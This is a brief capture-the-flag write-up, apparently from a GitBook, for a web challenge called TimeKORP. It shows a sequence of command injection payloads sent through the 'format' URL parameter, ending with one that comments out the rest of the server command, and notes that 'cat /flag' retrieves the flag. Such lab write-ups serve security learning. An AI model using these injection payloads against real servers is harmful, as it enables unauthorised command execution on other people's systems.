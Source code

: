 # TimeKORP

So we start off with this page:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

if i put a quote at the end of the url we get a blank response:

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i capture the request, send it to the repeater and start looking how i can get an output via command injection:

```
GET /?format=%Y-%25m-%25d'|pwd
GET /?format=%Y-%25m-%25d'pwd
GET /?format=%Y-%25m-%25d'|pwd#
GET /?format=%Y-%25m-%25d'|pwd+
GET /?format=%Y-%25m-%25d'|pwd+%23
```

and the last payload works, i needed to comment out the rest of what the backend server was doing and url encode my request:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we just need to change the command to cat /flag and we get our flag
